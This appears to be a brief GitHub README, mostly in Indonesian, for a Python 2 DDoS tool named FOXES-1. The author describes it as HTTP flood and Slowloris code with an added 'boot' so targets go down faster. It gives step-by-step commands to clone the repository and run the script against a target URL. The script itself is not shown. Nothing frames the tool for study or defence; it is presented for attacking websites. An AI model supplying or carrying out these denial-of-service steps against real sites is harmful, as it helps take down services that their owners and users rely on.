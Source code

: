 # DDoS Attack
# DDoS Attack

- Cara Install dan Ddos
------
```
$git clone https://github.com/SH313/FOXES-1.git
$cd FOXES-1
$chmod +x FOXES-1.py
$python2 FOXES-1.py
$python2 FOXES-1.py  http://target.com
```
- Autorized by r00t#d4nZ
- Script ini Dari Httpflood dan Slowloris saya hanya Menambah Boot ddos agar lebih terasa dan cepat down
